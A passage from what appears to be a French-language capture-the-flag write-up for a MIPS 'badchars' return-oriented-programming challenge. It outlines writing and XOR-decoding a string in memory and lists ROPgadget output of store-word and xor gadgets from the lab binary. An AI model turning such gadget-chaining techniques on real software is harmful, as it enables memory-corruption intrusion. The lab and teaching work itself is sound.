 Puis xorer de nouveau chaque caractère en mémoire pour obtenir la valeur initiale.

Pour la première partie envisage de procéder comme pour write4

### Recherche de gadgets

Pour l'ecriture en memoire.

On recherche un gadget de type "store word"

    # ROPgadget --binary badchars_mipsel --depth 6| grep "sw"
    0x004008a4 : addiu $gp, $gp, -0x6ff0 ; sw $gp, 0x10($sp) ; lw $v0, -0x7fb0($gp) ; move $t9, $v0 ; jalr $t9 ; nop
    0x00400a54 : addiu $s0, $v1, 0xff0 ; sw $ra, 0x24($sp) ; jalr $t9 ; addiu $s0, $s0, -4
    0x00400a4c : addiu $s1, $zero, -1 ; sw $s0, 0x1c($sp) ; addiu $s0, $v1, 0xff0 ; sw $ra, 0x24($sp) ; jalr $t9 ; addiu $s0, $s0, -4
    0x0040082c : addiu $v0, $v0, 1 ; sll $v1, $v0, 2 ; sw $v0, 0x1074($s1) ; addu $v0, $s2, $v1 ; lw $t9, ($v0) ; jalr $t9 ; nop
    0x004008a0 : lui $gp, 0x42 ; addiu $gp, $gp, -0x6ff0 ; sw $gp, 0x10($sp) ; lw $v0, -0x7fb0($gp) ; move $t9, $v0 ; jalr $t9 ; nop
    0x00400724 : lw $t0, -0x7fe0($gp) ; sw $t0, 0x10($sp) ; sw $v0, 0x14($sp) ; sw $sp, 0x18($sp) ; lw $t9, -0x7fbc($gp) ; jalr $t9 ; nop
    0x0040094c : lw $t0, 8($sp) ; lw $t1, 4($sp) ; lw $t2, ($t1) ; xor $t0, $t0, $t2 ; sw $t0, ($t1) ; jalr $t9 ; addi $sp, $sp, 0x10
    0x00400934 : lw $t0, 8($sp) ; lw $t1, 4($sp) ; sw $t1, ($t0) ; jalr $t9 ; addi $sp, $sp, 0x10
    0x00400950 : lw $t1, 4($sp) ; lw $t2, ($t1) ; xor $t0, $t0, $t2 ; sw $t0, ($t1) ; jalr $t9 ; addi $sp, $sp, 0x10
    0x00400938 : lw $t1, 4($sp) ; sw $t1, ($t0) ; jalr $t9 ; addi $sp, $sp, 0x10
    0x00400954 : lw $t2, ($t1) ; xor $t0, $t0, $t2 ; sw $t0, ($t1) ; jalr $t9 ; addi $sp, $sp, 0x10
    0x00400930 : lw $t9, 0xc($sp) ; lw $t0, 8($sp) ; lw $t1, 4($sp) ; sw $t1, ($t0) ; jalr $t9 ; addi $sp, $sp, 0x10
    0x0040092c : nop ; lw $t9, 0xc($sp) ; lw $t0, 8($sp) ; lw $t1, 4($sp) ; sw $t1, ($t0) ; jalr $t9 ; addi $sp, $sp, 0x10
    0x00400830 : sll $v1, $v0, 2 ; sw $v0, 0x1074($s1) ; addu $v0, $s2, $v1 ; lw $t9, ($v0) ; jalr $t9 ; nop
    0x004008f4 : sw $gp, 0x10($sp) ; lui $v0, 0x40 ; addiu $a0, $v0, 0xb30 ; lw $v0, -0x7fc0($gp) ; move $t9, $v0 ; jalr $t9 ; nop
    0x004008a8 : sw $gp, 0x10($sp) ; lw $v0, -0x7fb0($gp) ; move $t9, $v0 ; jalr $t9 ; nop
    0x00400688 : sw $ra, 0x1c($sp) ; lw $v0, -0x7fb8($gp) ; beqz $v0, 0x4006a4 ; nop ; lw $t9, -0x7fb8($gp) ; jalr $t9 ; nop
    0x00400a58 : sw $ra, 0x24($sp) ; jalr $t9 ; addiu $s0, $s0, -4
    0x00400a50 : sw $s0, 0x1c($sp) ; addiu $s0, $v1, 0xff0 ; sw $ra, 0x24($sp) ; jalr $t9 ; addiu $s0, $s0, -4
    0x00400a48 : sw $s1, 0x20($sp) ; addiu $s1, $zero, -1 ; sw $s0, 0x1c($sp) ; addiu $s0, $v1, 0xff0 ; sw $ra, 0x24($sp) ; jalr $t9 ; addiu $s0, $s0, -4
    0x00400730 : sw $sp, 0x18($sp) ; lw $t9, -0x7fbc($gp) ; jalr $t9 ; nop
    0x0040095c : sw $t0, ($t1) ; jalr $t9 ; addi $sp, $sp, 0x10
    0x0040095c : sw $t0, ($t1) ; jalr $t9 ; addi $sp, $sp, 0x10 ; lw $a0, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; addi $sp, $sp, 0xc
    0x00400728 : sw $t0, 0x10($sp) ; sw $v0, 0x14($sp) ; sw $sp, 0x18($sp) ; lw $t9, -0x7fbc($gp) ; jalr $t9 ; nop
    0x0040093c : sw $t1, ($t0) ; jalr $t9 ; addi $sp, $sp, 0x10
    0x00400834 : sw $v0, 0x1074($s1) ; addu $v0, $s2, $v1 ; lw $t9, ($v0) ; jalr $t9 ; nop
    0x0040072c : sw $v0, 0x14($sp) ; sw $sp, 0x18($sp) ; lw $t9, -0x7fbc($gp) ; jalr $t9 ; nop
    0x00400958 : xor $t0, $t0, $t2 ; sw $t0, ($t1) ; jalr $t9 ; addi $sp, $sp, 0x10
